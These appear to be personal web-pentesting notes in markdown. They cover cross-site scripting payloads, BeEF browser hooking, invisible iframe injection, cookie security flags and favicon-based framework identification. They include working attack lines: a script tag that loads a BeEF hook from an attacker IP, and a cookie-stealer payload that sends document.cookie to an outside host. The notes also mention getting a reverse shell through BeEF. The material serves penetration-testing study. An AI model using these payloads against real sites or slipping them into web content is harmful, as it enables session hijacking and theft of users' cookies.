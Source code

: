 ```

Payloads: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

```
#get document cookies

<script>print(document.cookie)</script>

#get host ip
<script>print(window.location.host)</script>

```
## Script from file
For instance can be used to hook to BeeF browser hijacker.
```
<script src="http://192.168.119.xxx:3000/hook.js"></script>
```

## iframe injection

* Invisible iframe can be inserted into unsanitzed input

```
<iframe src=http://google.com height=”0” width=”0”></iframe>
```
This can be however filtered out by user's browser

## Cookies manipulation

### Important security parameters

* Secure: only send the cookie over HTTPS. This protects the cookie from being sent in cleartext and captured over the network.

* HttpOnly: deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload can steal the cookie.

### Cookie Stealer Sample script

1. Find XSS vulnerability
2. Craft and inject payload
```
<script>new Image().src="http://IP/some.jpg?output="+document.cookie;</script>
```

### Use Kali's BeEF

BeeF can be used to get system info, users, rev shell etc.

## Insecure Deserialization

tbd properly

## Framework identification

* Wappalyzer
* Favicon
```
# grab the favicon like this 
user@machine$ curl https://ip.site.com/sites/favicon/images/favicon.ico | md5sum
```
Then find the framework on: https://wiki.owasp.org/index.php/OWASP_favicon_database

* Inspect Headers
```